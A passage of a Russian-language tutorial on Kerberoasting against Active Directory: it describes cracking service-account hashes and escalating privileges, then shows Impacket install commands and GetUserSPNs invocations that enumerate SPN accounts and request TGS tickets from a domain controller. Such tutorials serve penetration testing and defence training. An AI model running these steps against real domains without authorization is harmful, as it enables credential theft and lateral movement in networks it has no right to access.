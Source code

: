     - После получения хэша злоумышленник использует **Hashcat** или **John the Ripper** для расшифровки пароля.
    - Если пароль слабый, его можно быстро подобрать с помощью **брутфорса** или **атак по словарю**.
5. **Эскалация привилегий и дальнейшие атаки**
    
    - Если атакующий взломал сервисный аккаунт с высокими привилегиями (например, администратор базы данных или серверной службы), он может использовать его для дальнейшего распространения по сети.
    - В некоторых случаях такие учетные записи могут обладать правами администратора домена.

# 3. Инструменты для атаки

## 3.1 Impacket – Получение TGS-билетов

**Impacket** - это набор Python-скриптов для работы с сетевыми протоколами, включая SMB, RPC и Kerberos. Он содержит утилиту **GetUserSPNs.py**, которая позволяет запрашивать TGS-билеты для учетных записей с SPN (Service Principal Name).

### Установка Impacket на Kali Linux

Перед началом работы необходимо установить Impacket:

```bash
git clone https://github.com/fortra/impacket.git
cd impacket
python3 -m pipx install .
```

### Сканирование домена на наличие учетных записей с SPN

Используем **GetUserSPNs.py** для поиска сервисных учетных записей:

```bash
impacket-GetUserSPNs DOMAIN/USER:PASSWORD -dc-ip 192.168.1.10
```

**Где:**

- `DOMAIN/USER:PASSWORD` - учетные данные любого пользователя домена.
- `-dc-ip 192.168.1.10` - IP-адрес контроллера домена.

**Вывод:**

![2](https://github.com/ShAmRoWw/articles/blob/main/atricle_kerberoasting/2.png)

Теперь у нас есть учетные записи, для которых можно запросить билеты.

### Запрос билетов TGS для атакуемых учетных записей

```bash
impacket-GetUserSPNs DOMAIN/USER:PASSWORD -request -dc-ip 192.168.1.10
```

**Вывод:**

![3](https://github.com/ShAmRoWw/articles/blob/main/atricle_kerberoasting/3.png)
